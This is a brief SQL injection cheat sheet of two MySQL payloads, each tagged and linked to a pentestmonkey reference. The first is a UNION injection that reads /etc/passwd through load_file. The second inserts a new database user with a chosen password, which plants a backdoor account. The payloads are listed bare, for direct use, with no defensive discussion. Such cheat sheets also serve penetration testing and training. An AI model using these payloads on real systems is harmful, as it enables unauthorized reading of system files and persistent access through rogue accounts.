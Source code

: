 ### 1. Load a file with MYSQL
```
null union all select load_file('/etc/passwd')/*
```
**- web application,sql injection,mysql**
#### References:

http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheets
__________
### 2. mysql add user
```
insert into mysql.user (user, host, password) values ('victor', 'localhost', password('pass123'))
```
**- web application,sql injection,mysql**
#### References:

http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
__________
